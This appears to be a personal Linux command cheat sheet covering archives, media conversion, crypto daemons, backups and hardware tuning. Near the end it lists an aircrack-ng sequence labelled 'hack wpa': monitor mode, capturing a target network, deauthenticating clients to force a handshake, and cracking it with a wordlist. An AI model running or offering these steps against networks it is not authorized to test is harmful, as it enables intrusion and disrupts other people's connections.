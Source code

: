unrar all archives in current folder  
`$ for f in *.rar;do unrar e -o+ $f;done`  

show folder size  
`$ du -h --max-depth=1`  

convert movie to xbox360 format  
`$ ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"`  

batch convert above  
```$ for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done ```

monero daemon  
`$ monerod --data-dir /mnt/cloud/monero`  

import gpg key for aur packages  
`$ gpg --receive-key keyid`  

ethereum blockchain sync  
`$ geth --syncmode "fast"`  

show external ip  
`$ curl ifconfig.me`  

weather forecast  
`$ curl wttr.in/Wilhelmshaven`  

set gtk cursor global value for browsers   
`$ gsettings set org.gnome.desktop.interface cursor-theme Adwaita`  

calculator  
` $ bc`  

backup through ssh  
`$ rsync -avz /source/folder/ user@remoteadress:/remote_folder`  

unrar all archives in folder (autoverwrite enabled)  
`$ find . -name "*.rar" -exec unrar x -o+ {} \;`  

show cpu frequency 
`$ cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\""`  

force cpu governor  
`$ sudo cpupower frequency-set -g powersave or performance`  

list available governors $ cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors  

show network usage $ iftop  

create playlist $ ls -1 *.mp4 > playlist.m3u  


cut characters playlist example $ cut -c 50- playlist.m3u > newplaylist.m3u  

batch rename delete example $ for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done  

output orphaned packages to file & run removal  $ sudo pacman -Qqdt > pkglist.txt & sudo pacman -R - < pkglist.txt  

hack wpa $ airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon  

hack wpa target network $ airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon  

force handshake $ aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon  

crack with wordlist $ aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap  

get nvme temperature $ sudo nvme smart-log /dev/nvme0 | grep temperature  

delete all but given extension $ find . -type f ! -name '*.txt' -delete  

amd vega current values $ watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info  

disable vsync environment variable $ vblank_mode=0  

current vega voltage values $ sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage  

force high dpm on graphics card $ echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level  
